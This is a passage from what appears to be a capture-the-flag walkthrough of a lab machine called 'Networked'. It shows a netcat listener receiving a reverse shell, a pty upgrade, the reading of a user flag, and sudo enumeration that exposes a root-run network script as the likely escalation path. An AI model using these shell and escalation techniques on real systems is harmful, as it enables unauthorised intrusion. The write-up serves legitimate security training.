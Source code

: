```
└─$ nc -nvlp 8899          
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8899
Ncat: Listening on 0.0.0.0:8899
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:52928.
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
python -c 'import pty; pty.spawn("/bin/bash")'
[guly@networked ~]$ pwd
pwd
/home/guly
[guly@networked ~]$ cat user.txt
cat user.txt
526cfc2305f17faaacecf212c57d71c5
[guly@networked ~]$ 

```

## Enumeration as "guly"

One of the first things to always check is whether or not the user can run commands as root. In this case, as shown below, we see that the user can run a shell script as root. Let's take a closer look at the script.

```
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$ ls -la /usr/local/sbin/changename.sh
ls -la /usr/local/sbin/changename.sh
-rwxr-xr-x 1 root root 422 Jul  8  2019 /usr/local/sbin/changename.sh
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
```